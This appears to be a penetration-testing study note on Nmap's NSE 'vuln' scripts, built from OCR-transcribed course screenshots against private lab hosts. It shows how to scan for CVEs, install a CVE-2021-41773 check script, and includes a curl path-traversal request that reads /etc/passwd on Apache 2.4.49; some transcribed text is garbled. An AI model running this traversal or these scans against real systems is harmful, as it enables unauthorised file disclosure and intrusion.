

---
tags:
  - enumeration
  - nmap
  - phase/enumeration
---

# NMAP


> [!note]- Screenshot
> ```
> We can query script.db with grep to filter scripts by category. The output below lists
> each script in the vuin category, along with all of its assigned categories.
> 
> | kali@kali:~$ cd /usr/share/nmap/scripts/ a}
> | kali@kali:/usr/share/nmap/scripts$ cat script.db | grep "\"vuln\"" i
> | entry { filename = “afp-path-vuln.nse”, categories = { “exploit”, “intrusive”, “vuln”, :
> 13} i
> | Entry { filename = “broadcast-avahi-dos.nse”, categories = { “broadcast”, “dos”, :
> | “intrusive”, “vuln”, } } H
> | Entry { filename - “clamav-exec.nse", categories - { “exploit”, “vuln”, } } i
> | entry { filename = “distcc-cve2ee4-2687.nse", categories = { “exploit, “intrusive”, i
> { tvuln", } } i
> | Entry { filename = “dns-update.nse”, categories = { "intrusive", “vuln”, } } i
> Each entry has a file name and categories. The file name represents the name of the
> NSE script in the NSE directory.
> ```


```sh
cd /usr/share/nmap/scripts/
cat script.db  | grep "\"vuln\""
```


> [!note]- Screenshot
> ```
> The --script parameter determines which NSE scripts Nmap executes during a scan. Its
> argument can be one of the following:
> 
> « Ascript category (for example, vuin)
> 
> « A Boolean expression combining categories or script names
> 
> «* Acomma-separated list of categories
> 
> * The full or wildcard-specified name of an NSE script listed in script.db
> 
> * An absolute path to a specific NSE script
> ```


> [!note]- Screenshot
> ```
> The following command runs all vuin category NSE scripts against port 443. In the
> output, watch for the vulners script results, which map the detected Apache version to
> known CVEs and their associated CVSS scores.
> 
> kaligkali:~$ sudo nmap -sV -p 443 --script “vuln” 192.168.50.13
> 
> [sudo] password for kali:
> 
> Starting Nmap 7.92 ( https://nmap.org )
> 
> PORT STATE SERVICE VERSION
> 
> 443/tcp open http Apache httpd 2.4.49 ((Unix))
> 
> | winers:
> 
> | cpe:/a:apache:http_server:2.4.49:
> 
> https: //vulners. com/githubexploit/DFS7ESF1-FE21-5EB9-8FC7-SF2EA267B09D
> 
> *EXPLOIT*
> 
> | CVE-2021-41773 4.3 https://vulners.com/cve/CVE-2021-41773
> 
> |_http-server-header: Apache/2.4.49 (Unix)
> 
> MAC Address: @0:0C:29:C7:81:EA (VMware)
> 
> Listing 5 - Using NSE's "vuln" category scripts against the SAMBA machine
> ```


```sh
sudo nmap -sV -p 443 --script "vuln" 192.168.50.13
```


> [!note]- Screenshot
> ```
> Nmap detected the Apache service with version 2.4.49 and tried all the NSE scripts
> from the vuin category. Most of the output comes from the vulners script, which uses
> the information from the detected service and version to provide related vulnerability
> data.
> 
> The vulners script not only shows us information about the CVEs found but also the
> CVSS scores and links for additional information. For example, Listing 5 shows that
> Nmap, in combination with the vulners script, detected that the target is vulnerable to
> CVE-2021-41773.
> 
> Another useful feature of the vulners script is that it also lists Proofs of Concept
> (PoC)for discovered vulnerabilities, which are marked with "*EXPLOIT*". However,
> without a successful service detection, the vulners script will not provide any results.
> ```


> [!note]- Screenshot
> ```
> Let's practice how to do this with CVE-2021-41773. To find a suitable NSE script, we can
> use a search engine to find the CVE number plus NSE (cvE-2021-41773 nse).
> Goode a
> QA BNews © Maps Images G) Videos i More Tools
> About 59,500 results (0,49 seconds)
> hitpsi/gihub.com » RootUp » PersonalStuff» blob » Mt... #
> PersonalStuff/http-vuln-cve-2021-41773.nse at master - GitHub
> This is @ repo is to upload files done during my research. - PersonalStuff/http-vuln-cve-2021-
> 41773.nse at master - RootUp/PersonalStutt
> https://github.com > TAI-REx > cve-2021-41773-nse
> TAI-REx/cve-2021-41773-nse - GitHub
> (CVE-2021-41773.nse. Contribute to TAL-REx/eve-2021-41773-nse development by creating an
> ‘account on GitHub,
> Figure 46: Searching for an NSE script for a specific CVE in Google
> One of the first search results is a link to a GitHub page that provides a script to check
> for this vulnerability. Let's download this script and save it as
> /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse to comply with the naming syntax
> of the other NSE scripts. Before we can use the script, we'll need to update script.db
> with --script-updatedb.
> We copy the downloaded script into Nmap's scripts directory — using the normalized
> naming convention — and run --script-updatedb to register it. A message confirming
> the database update means the script is ready to use.
> kali@kali:~$ sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse
> Jusr/share/nmap/scripts/http-vuln-cve2021-41773.nse
> kali@kali:~$ sudo nmap --script-updatedb
> [sudo] password for kali:
> Starting Nmap 7.92 ( https://nmap.org )
> NSE: Updating rule database.
> NSE: Script Database updated successfully.
> Nmap done: @ IP addresses (@ hosts up) scanned in @.54 seconds
> Listing 6 - Copy the NSE Script and update the script.db database
> ```


> [!note]- Screenshot
> ```
> Running the custom script against the same target produces the following output. Look
> for the VULNERABLE state and the path traversal URL in the Check results section —
> these confirm the finding.
> 
> kali@kali:~$ sudo nmap -sV -p 443 --script “http-vuln-cve2021-41773" 192.168.509.124
> 
> Starting Nmap 7.92 ( https://nmap.org )
> 
> Host is up (@.00069s latency).
> 
> PORT STATE SERVICE VERSION
> 
> 443/tcp open http Apache httpd 2.4.49 ((Unix))
> 
> | http-vuln-cve2021-41773:
> 
> | WLNERABLE:
> 
> | Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
> 
> | State: VULNERABLE
> 
> | A flaw was found in a change made to path normalization in Apache HTTP
> 
> Server 2.4.49. An attacker could use a path traversal attack to map URLs to files
> 
> outside the expected document root. If files outside of the document root are not
> 
> protected by “require all denied" these requests can succeed. Additionally this flaw
> 
> could leak the source of interpreted files like CGI scripts. This issue is known to be
> 
> exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions.
> 
> |
> 
> | Disclosure date: 2021-10-05
> 
> | Check results:
> 
> |
> 
> | Verify arbitrary file read: https: //192.168.50.124:443/cgi-
> 
> bin/ .%2e/%2e%2e/K%2e%2e/K2ek2e/etc/passwd
> 
> Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
> 
> Listing 7 - CVE-2021-41773 NSE Script
> ```


```sh
sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.50.124
```

To Curl it I needed:

## --path-as-is


```sh
curl --path-as-is -v "http://192.168.128.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

## Visual Flow



> [!success] What success looks like
> The `vuln` scan prints a CVE with a `*EXPLOIT*` PoC line, and the targeted CVE script reports `State: VULNERABLE` plus a "Check results" line you can reproduce by hand (here, a path-traversal URL reading `/etc/passwd`).

> [!danger] Common errors
> - `vuln` scan returns nothing → the vulners script needs a successful version detection. Always include `-sV`; without a detected service+version it can't map CVEs.
> - Your downloaded CVE script isn't found → you forgot to register it. Save it under `/usr/share/nmap/scripts/` using the standard naming, then run `sudo nmap --script-updatedb`.
> - curl test fails to traverse → use `--path-as-is` so curl doesn't normalize the `%2e` sequences out of the URL.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> A **false positive** is a vuln the scanner reports that isn't actually exploitable. The `vuln` scripts guess from the version banner, so a flagged CVE might be back-patched. Confirm with a targeted CVE script (look for `State: VULNERABLE`) and a manual check before you try to exploit it.

---
%% graph-links %%
## Related
- [[Nessus]]
- [[Nmap Scripting Engine (NSE)]]
- [[FingerPrinting with Nmap]]
- [[TCPUDP Port Scanning Theory]]

> [!info] Navigation
> Section: [[Vulnerability Scanning/_index|Vulnerability Scanning]] · Home: [[🏠 Home]]

